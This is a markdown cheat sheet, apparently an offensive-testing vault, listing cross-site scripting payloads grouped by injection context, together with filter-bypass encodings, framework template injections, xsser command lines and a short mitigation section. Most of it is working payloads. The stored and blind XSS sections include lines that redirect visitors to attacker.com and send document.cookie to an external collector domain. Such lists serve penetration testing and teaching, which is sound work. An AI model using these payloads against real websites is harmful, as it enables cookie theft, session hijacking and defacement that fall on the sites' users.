



#  XSS Payload Vault

> [!abstract] **Overview**
> Structured vault for common **XSS payload families**, organized by **execution context** for fast offensive testing and filter bypass analysis.

# Reflected XSS




> [!info]
> **Reflected XSS** occurs when user input is immediately reflected in the HTTP response without proper encoding.

> [!example] Basic Payloads
>```
><script>alert(1)</script>
>
><svg onload=alert(1)>
><body onload=alert(1)>
><iframe srcdoc="<script>alert(1)</script>"></iframe>
>```

# Stored XSS



> [!success]
> Payload is **persisted on the server** (comments, forums, profiles).

> [!example] Stored Payloads
>```
><script>window.location.replace("https://attacker.com")</script>
><script>document.write("Site PWN")</script>
><script>alert(document.cookie)</script>
>
><video src=x onerror=alert(1)>
><input value="<svg onload=alert(1)>">
><iframe srcdoc="<svg onload=alert(1)>"></iframe>
>```

#  DOM-Based XSS




> [!question]
> Occurs entirely **client-side** when JavaScript inserts unsanitized data into the DOM.

Example vulnerable sinks:

```javascript
document.write(location.hash)
element.innerHTML = location.search
```

> [!example]- DOM Payloads
>```
>#<svg onload=alert(1)>
>?xss=
>#test"><script>alert(1)</script>
><details open ontoggle=alert(1)>
>```

---
# HTML Context Payloads

> [!info]
>
>Payloads that execute when input is inserted directly inside HTML.

> [!example]-
>```
><script>alert(1)</script>
></script><script>alert(1)</script>
>
><svg onload=alert(1)>
><iframe src=javascript:alert(1)>
>```

# Attribute Injection

> [!warning]
> Used when user input appears **inside an HTML attribute value**.

> [!example]-
>```
>">
>' onmouseover='alert(1)
>" onfocus="alert(1)
><input autofocus onfocus=alert(1)>
>```

# Event Handler Execution

> [!info]
>
>Execution through HTML events.

> [!example]-
>```
>
><body onload=alert(1)>
><svg onload=alert(1)>
><details ontoggle=alert(1)>
><marquee onstart=alert(1)>
><input type=text onfocus=alert(1) autofocus>
><button onclick=alert(1)>
><a onmouseover=alert(1)>
><form onsubmit=alert(1)>
>```

# Protocol Abuse

> [!warning]
>
>Execution through dangerous URL schemes.

> [!example]- javascript protocol
>```
><a href="javascript:alert(1)">click</a>
><form action="javascript:alert(1)">
><iframe src="javascript:alert(1)">
>```

> [!example]- data URI
>```
>data:text/html,<script>alert(1)</script>
><iframe src="data:text/html,<script>alert(1)</script>"></iframe>
>```

# Embedded Contexts

> [!danger]
>
>Execution through embedded browser contexts.

> [!example]-
>```
><iframe srcdoc="<script>alert(1)</script>"></iframe>
><object data="data:text/html,<script>alert(1)</script>"></object>
><embed src="data:text/html,<script>alert(1)</script>">
>```

# SVG / MathML Injection

> [!warning]
>
>XML based tags that bypass naive filters.

> [!example]-
>```
><svg onload=alert(1)>
><svg><script>alert(1)</script></svg>
><svg><a xlink:href="javascript:alert(1)">X</a></svg>
><svg><foreignObject><script>alert(1)</script></foreignObject></svg>
><math><mi><script>alert(1)</script></mi></math>
>```

# Polyglot Payloads

> [!warning]
Payloads that execute in **multiple contexts simultaneously**.

> [!example]-
>```
>"><svg onload=alert(1)>
>'></script><script>alert(1)</script>
></style><svg onload=alert(1)>
></textarea>
>"><body onload=alert(1)>
>```

# Filter Bypass Techniques

> [!bug]
>
>Payload transformations to evade WAF or input filters.

> [!example]-
>```
><ScRiPt>alert(1)</sCrIpT>
>%3Cscript%3Ealert(1)%3C/script%3E
>%253Cscript%253Ealert(1)%253C/script%253E
><script/xss>alert(1)</script>
>
><a href=JaVaScRiPt:alert(1)>Click</a>
>```

# Blind XSS

> [!danger]
>
>Used when execution happens **in another user's browser** (admin panels etc).

> [!example]-
>```
><script src=//YourXSSHunterDomain></script>
>"><script src=//YourXSSHunterDomain></script>
>```
>
>```
><script>
var i=new Image;
>i.src="https://YourXSSHunterDomain/?"+document.cookie;
></script>
>```

# Framework Injection

> [!info]
>
>Client-side framework expression injections.

> [!example]-
>##### **AngularJS**
>```
>{{constructor.constructor('alert(1)')()}}
>```
>
>##### **Vue**
>```
>{{_openBlock.constructor('alert(1)')()}}
>```
>
>##### **React**
>```
><div dangerouslySetInnerHTML={{__html:''}} />
>```
>
>##### **Svelte**
>```
>{@html ""}
>```

---

# Tools

> [!success] XSSERS
> ```
> xsser --url 'http://example/index.php?page=lookup.php' -p
'target_host=XSS&lookup-php-submit-button=Lookup+DNS'
> ```
>```
> xsser --url 'http://example/index.php?page=lookup.php' -p
'target_host=XSS&lookup-php-submit-button=Lookup+DNS' --auto
> ```
> ```
> xsser --url 'http://example/index.php?page=lookup.php' -p
'target_host=XSS&lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(365)</script>"
> ```


> [!info]- 🛡 Defense & Mitigation
> 
> **Best Practices**
> 
> - Context-aware **output encoding**
> - Strict **Content Security Policy (CSP)**
> - Avoid `innerHTML`
> - Use sanitizers like **DOMPurify**
> - Validate and sanitize user input
> 
> Safe example:
> 
> ```javascript
> element.textContent = userInput
> ```
> 
> Unsafe example:
> 
> ```javascript
> element.innerHTML = userInput
> ```


